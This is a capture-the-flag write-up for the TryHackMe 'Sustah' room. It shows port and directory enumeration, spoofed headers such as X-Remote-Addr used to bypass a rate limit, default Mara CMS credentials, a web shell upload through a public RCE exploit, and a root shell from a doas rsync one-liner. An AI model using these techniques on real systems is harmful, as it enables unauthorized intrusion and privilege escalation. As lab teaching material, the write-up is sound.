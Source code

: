 # 65 - Sustah (Http Rate Limit Bypass)

Room Link --> [https://tryhackme.com/room/sustah](https://tryhackme.com/room/sustah)

### Enumeration

{% code overflow="wrap" lineNumbers="true" %}
```bash
nmap -Pn -n -vv 10.10.212.70 -p- -sV -T4 -T5

PORT     STATE SERVICE REASON  VERSION
22/tcp   open  ssh     syn-ack
80/tcp   open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
8085/tcp open  http    syn-ack Gunicorn 20.0.4
```
{% endcode %}

#### Gobuster enum

{% code overflow="wrap" lineNumbers="true" %}
```bash
gobuster dir -u http://10.10.212.70:8085/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 500 --no-error

/home
/ping
```
{% endcode %}

Opening HTTP service running on port 8085 we get a HTTP server that is also running runicorn meaning its a flask web application and it appears to be a gaming site

<figure><img src="https://miro.medium.com/v2/resize:fit:602/1*MfCJRRKRFkQIczS4FLW3Sw.png" alt="" height="378" width="700"><figcaption></figcaption></figure>

I tried to bruteforce the number but there is a rate limiting feature.

The answer headers look like that:

<figure><img src=".gitbook/assets/image (11) (1) (1).png" alt=""><figcaption></figcaption></figure>

### HTTP Rate Limit Bypass

Check hacktricks for a bypass method.

```bash
# tried all..
X-Originating-IP: 127.0.0.1
X-Forwarded-For: 127.0.0.1
X-Remote-IP: 127.0.0.1
X-Remote-Addr: 127.0.0.1
X-Client-IP: 127.0.0.1
X-Host: 127.0.0.1
X-Forwared-Host: 127.0.0.1

#or use double X-Forwared-For header
X-Forwarded-For:
X-Forwarded-For: 127.0.0.1

# but only this worked:
X-Remote-Addr: 127.0.0.1
```

They are gone now..

<figure><img src=".gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

So forward the request to intruder to bruteforce the Numbers.

The hint displayed \*\*\*\*\* 5 stars, so the logical move is to start from 10000.

<figure><img src=".gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
/YouGotTh3P@th
```

Navigating to the path:

So this didn't work --> [http://10.10.212.70:8085/YouGotTh3P@th](http://10.10.212.70:8085/YouGotTh3P@th)

But this worked --> [http://10.10.212.70/YouGotTh3P@th/](http://10.10.212.70/YouGotTh3P@th/)

<figure><img src=".gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

So Mara CMS. Googling the exploit for this CMS, and found an authenticated RCE exploit.

Enumerating dirs and files for this CMS

{% code overflow="wrap" lineNumbers="true" %}
```bash
gobuster dir -u http://10.10.212.70/YouGotTh3P@th/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 500 --no-error -x txt,html,php,py,ini,db,sql -b 403,500,404

/index.php
/blog
/about.php
/css
/template
/log
/theme
/changes.txt
/plugin
```
{% endcode %}

### Initial Access

We got the version: Mara 7.5

The default credentials worked: `admin : changeme` .

Using this [exploit](https://www.exploit-db.com/exploits/48780)

<figure><img src=".gitbook/assets/image (4) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Files saved to: /var/www/html/YouGotTh3P@th/img

So i navigated to : [http://10.10.212.70/YouGotTh3P@th/img/shell.php](http://10.10.212.70/YouGotTh3P@th/img/shell.php) and got shell.

<figure><img src=".gitbook/assets/image (6) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

The hint says look for backup files, there is a backups dir in /var, we found kiran password in a `.bak.passwd` .

`kiran : trythispasswordforuserkiran` .

And we su into Kiran acct.

### Priv Esc to root

After linpeas had finished running i found out that kiran could run rsync as the root user without providing the root’s password. This was a misconfiguation on it’s own

<figure><img src="https://miro.medium.com/v2/resize:fit:602/1*xobiL0zUULtjH4RsFiKEUw.png" alt="" height="63" width="700"><figcaption></figcaption></figure>

Looking at GTFOBins there is a way we could get a shell using rsync

<figure><img src="https://miro.medium.com/v2/resize:fit:602/1*AwTha1sZZUGB4oMZuBhNIg.png" alt="" height="121" width="700"><figcaption></figcaption></figure>

So i tried executing the command as kiran user

The command was

```
doas -u root rsync -e 'sh -c "sh 0<&2 1>&2"' 127.0.0.1:/dev/null
```

<figure><img src="https://miro.medium.com/v2/resize:fit:602/1*GstFkXKsXBTC78xRZpZmyw.png" alt="" height="70" width="700"><figcaption></figcaption></figure>

Done!

